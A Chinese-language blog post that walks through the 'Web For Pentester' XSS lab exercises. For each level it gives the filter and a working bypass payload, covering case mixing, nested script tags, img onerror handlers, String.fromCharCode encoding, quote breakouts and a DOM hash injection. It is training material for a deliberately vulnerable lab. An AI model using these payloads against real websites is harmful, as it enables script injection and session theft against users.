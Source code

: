 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/cd417941f3ec3445dafb444f43cf32c9.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```




### XSS Example 1

直接输出无任何过滤：

**name=\<script>alert(/XSS/)\</script>**

### XSS Example 2s
过滤掉了\<script>标签，通过大小写进行绕过：

**name=\<Script>alert(/XSS/)\</Script>**

### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：


**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**

### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：


**name=\<img src=1 onerror="alert(/XSS/)">**

### XSS Example 5
alert被过滤，但prompt、confirm函数可使用；这里同样可以使用String.fromCharCode来绕过：


**name=\<img src=1 onerror="confirm(/XSS/)">**

> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
> 针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert(/XSS/);转换为
> String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 88, 83, 83, 47, 41)那么我们的XSS语句就变成了
> **\<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)\</script>** 
> String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串，在harkbar中的XSS功能中有这个功能可直接使用

### XSS Example 6
F12查看元素，发现输出在script标签中 *$a= "hacker";* ，那么直接闭合双引号就好：


**name=XSS";alert($a);//**

### XSS Example 7
通过Example 6的方法发现双引号被HTML编码了，而且在$a=''处添加了单引号来申明变量内容，那么同样依照闭合的原则将双引号改为单引号即可


**name=XSS';alert($a);//**

### XSS Example 8
查询功能，将查询内容反馈至页面，那么也就是存储型XSS，使用\<script>标签进行测试，通过查看源码发现<>尖括号被HTML编码，一般来说XSS漏洞修复若将尖括号进行编码后输出可视为安全的，但发现这里的form表单里的url可为任意构造，尝试访问如下带有payload的url成功
**/xss/example8.php/" onmouseover="alert(1)**

### XSS Example 9
同样审查元素，发现这里是一个很经典的DOM-Based XSS，使用了location.hash.substring(1)，那么直接构造
**/xss/example9.php#\<script>alert(/XSS/)\</script>**
